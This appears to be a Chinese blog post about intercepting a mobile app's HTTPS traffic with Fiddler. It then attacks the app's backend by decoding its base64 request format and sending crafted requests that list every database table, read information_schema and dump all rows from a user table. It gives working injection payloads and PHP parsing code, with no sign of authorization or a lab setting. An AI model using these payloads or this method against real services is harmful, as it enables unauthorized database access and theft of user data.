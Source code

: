 ## 抓包

1. Fiddler设置手机抓取Https请求  
Tools-Options-HTTPS
![](https://img.hujinbo.me/blog/4GpqmI.png)

2. 设置允许远程计算机连接和暴露端口  
Tools-Options-Connections
![](https://img.hujinbo.me/blog/QW8jib.png)

3. 关闭电脑的防火墙（若使用虚拟机还需将网络调整为桥接模式）  
![](https://img.hujinbo.me/blog/QLpzmG.png)
![](https://img.hujinbo.me/blog/bIkOlE.png)

4. 设置手机代理，确保和电脑处于同个内网  
![](https://img.hujinbo.me/blog/PDBhx1.jpg)

5. 打开APP监听请求  
![](https://img.hujinbo.me/blog/Ypgysb.png)

## 修改源码

上述通过抓包分析，得到请求体，使用[base64解码](https://tool.oschina.net/encrypt?type=3 )后，得到如下字符串：
```
MSDATAlocalhost:3306|*||*||*|qwe|*|utf8|*|QrData|*|yhb|*|yhb|*|yhb='6666666666666666'
```
为方便分析，我们将`openapi_unsafe.php`部分代码提取，并[在线运行](https://c.runoob.com/compile/1 )：
```php
<?php
$receive = base64_decode("TVNEQVRBbG9jYWxob3N0OjMzMDZ8Knx8Knx8Knxxd2V8Knx1dGY4fCp8UXJEYXRhfCp8eWhifCp8eWhifCp8eWhiPSc2NjY2NjY2NjY2NjY2NjY2Jw==");
echo $receive;
$mainbody = substr($receive,6);
$mainbody = explode("|*|",$mainbody);
if(count($mainbody)<6){
	exit('Error');
}
echo "0Hostname=".$mainbody[0].", ";
echo "1User=".$mainbody[1].", ";
echo "2Password=".$mainbody[2].", ";
echo "3Database=".$mainbody[3].", ";
echo "4Code=".$mainbody[4].", ";
echo "5Comm=".$mainbody[5];
echo "6Comm=".$mainbody[6];
echo "7Comm=".$mainbody[7];
echo "8Comm=".$mainbody[8];
?>
```

1. 按照常见sql注入的方式，我们先获取所有的表，将如下请求base64编码后，使用postman发送：
```
MSDATAlocalhost:3306|*||*||*|qwe|*|utf8|*|STables
```
2. 拿到所有的表后，我们再依次获取表结构、数据等信息：
```
# 获取表结构
MSDATAlocalhost:3306|*||*||*|qwe|*|utf8|*|QrData|*|information_schema.columns|*|column_name|*|table_schema='qwe' and table_name='yhb'
# 获取所有字段的数据
MSDATAlocalhost:3306|*||*||*|qwe|*|utf8|*|QrData|*|yhb|*|yhb,jhsj,day|*|
```
![](https://img.hujinbo.me/blog/a36EEn.png)
